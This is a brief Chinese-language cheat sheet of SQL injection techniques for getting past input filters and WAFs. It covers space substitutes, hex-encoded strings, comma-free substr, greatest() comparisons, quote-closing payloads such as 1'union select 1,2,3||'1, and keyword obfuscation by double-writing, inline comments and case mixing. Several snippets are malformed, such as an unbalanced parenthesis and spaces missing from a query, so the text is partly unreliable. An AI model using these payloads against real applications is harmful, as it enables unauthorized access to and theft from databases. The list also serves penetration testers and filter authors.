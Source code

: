 ## 過濾繞過
```
//空格
%0a,/**/,()

//引號
用16進制繞過
hex(user)=0x7573657273
selectcolumn_namefrominformation_schema.tableswheretable_name=0x7573657273

//逗號
可以用from for繞過
select substr(database(0from1for1);

//角括號
greatest繞過
greatest(ascii(substr(database(),0,1)),64)=64

//or,and
and=&&  or=||

//注釋符號(#，--)
使用||'閉合
1'union select 1,2,3||'1
最後一位閉合
1'union select 1,2,'3

//等於號
使用<，>來進行判斷

//union，select，where
雙寫
ununionion
截斷
un/**/ion
大小寫
UniOn

//編碼繞過

```
